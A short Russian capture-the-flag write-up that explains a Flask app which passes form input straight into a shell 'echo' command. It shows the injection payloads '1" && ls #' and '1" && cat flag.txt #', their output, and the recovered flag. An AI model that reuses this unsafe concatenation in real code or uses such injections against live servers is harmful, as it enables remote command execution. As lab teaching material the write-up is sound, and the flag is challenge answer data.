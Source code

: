 # Really Cool by E.

Если из заглавных букв названия сложить слово, то получим **RCE**. [Что это такое?](https://ru.bmstu.wiki/RCE_(Remote_Code_Execution)#:~:text=RCE%20(Remote%20Code%20Execution)%20%E2%80%94%20%D0%9D%D0%B0%D1%86%D0%B8%D0%BE%D0%BD%D0%B0%D0%BB%D1%8C%D0%BD%D0%B0%D1%8F%20%D0%B1%D0%B8%D0%B1%D0%BB%D0%B8%D0%BE%D1%82%D0%B5%D0%BA%D0%B0%20%D0%B8%D0%BC.)

Почитали, смотрим сорсы.

```python
@app.route('/', methods=['POST', 'GET'])
def index():
    try:
        if request.method == 'POST':
            data = request.form.to_dict()
            command = 'echo "' + str(data['input']) + '" > ' + os.path.abspath(".") + '/file.txt'
            result = ''
            for line in run_command(command):
                result += line.decode()
            if len(result) == 0:
                flash('Added!', "success")
                result = "If the output is not empty, it will be here!"
            return render_template("lol.html", result = result )
    except Exception as e:
         flash('Some kind of problem..', "danger")
    return render_template("lol.html", result = "If the output is not empty, it will be here!")
```

Видим, что ввод попадает напрямую в команду линуха. Лишнее откинем, получим такую команду:

```sh
'echo "' + ВВОД + '" > file.txt'
```
Подумали, вводим **1" && ls #**, по итогу на сервере выполняется:

```sh
'echo "1" && ls #" > file.txt'
```

где после **#** всё откинется. И мы получим вывод **ls**.

```sh
1 1 Dockerfile app app.ini cat file.txt flag.txt requirements.txt run.py static templates
```

Видим *flag.txt*, меняем ввод на **1" && cat flag.txt #** и получаем флаг.

Флаг - *4hsl33p{l0l_RC3_w4s_ez_666}*